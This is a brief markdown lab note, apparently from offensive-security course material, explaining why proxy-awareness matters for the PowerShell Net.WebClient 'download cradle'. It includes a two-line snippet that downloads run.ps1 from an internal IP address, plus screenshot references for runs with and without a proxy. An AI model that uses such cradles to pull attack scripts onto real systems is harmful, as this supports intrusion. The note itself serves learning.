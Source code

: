 ## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:
```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:
![wo_proxy](../../../../Screenshots/wo_proxy.png)

With Proxy:
![w_proxy](../../../../Screenshots/w_proxy.png)

We can see that the system.net.webclient is aware of a proxy in use.


